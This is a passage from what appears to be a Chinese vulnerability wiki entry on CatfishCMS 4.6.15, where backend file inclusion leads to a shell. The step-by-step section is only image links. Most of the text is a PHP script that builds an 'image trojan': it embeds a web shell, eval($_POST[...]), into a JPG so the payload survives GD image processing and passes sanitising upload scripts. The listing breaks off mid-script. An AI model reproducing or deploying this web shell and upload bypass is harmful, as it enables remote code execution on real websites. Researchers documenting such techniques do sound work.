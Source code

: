 制作过程：

![](/Users/aresx/Documents/VulWiki/.resource/CatfishCMS4.6.15后台文件包含getshell/media/rId31.png)

![](/Users/aresx/Documents/VulWiki/.resource/CatfishCMS4.6.15后台文件包含getshell/media/rId32.png)

![](/Users/aresx/Documents/VulWiki/.resource/CatfishCMS4.6.15后台文件包含getshell/media/rId33.png)

![](/Users/aresx/Documents/VulWiki/.resource/CatfishCMS4.6.15后台文件包含getshell/media/rId34.png)

![](/Users/aresx/Documents/VulWiki/.resource/CatfishCMS4.6.15后台文件包含getshell/media/rId35.png)

![](/Users/aresx/Documents/VulWiki/.resource/CatfishCMS4.6.15后台文件包含getshell/media/rId36.png)

图片马制作脚本

    <?php
        /*

        The algorithm of injecting the payload into the JPG image, which will keep unchanged after transformations
        caused by PHP functions imagecopyresized() and imagecopyresampled().
        It is necessary that the size and quality of the initial image are the same as those of the processed
        image.

        1) Upload an arbitrary image via secured files upload script
        2) Save the processed image and launch:
        php jpg_payload.php <jpg_name.jpg>

        In case of successful injection you will get a specially crafted image, which should be uploaded again.

        Since the most straightforward injection method is used, the following problems can occur:
        1) After the second processing the injected data may become partially corrupted.
        2) The jpg_payload.php script outputs "Something's wrong".
        If this happens, try to change the payload (e.g. add some symbols at the beginning) or try another 
        initial image.

        Sergey Bobrov @Black2Fan.

        See also:
        https://www.idontplaydarts.com/2012/06/encoding-web-shells-in-png-idat-chunks/

        */

        $a = '$_POST[eeeeeee]';
        $miniPayload = "<?php eval($a); ?><?php echo phpinfo(); ?>";
        /*$miniPayload = "<?php echo phpinfo(); ?>";*/
        if(!extension_loaded('gd') || !function_exists('imagecreatefromjpeg')) {
            die('php-gd is not installed');
        }
        
        if(!isset($argv[1])) {
            die('php jpg_payload.php <jpg_name.jpg>');
        }
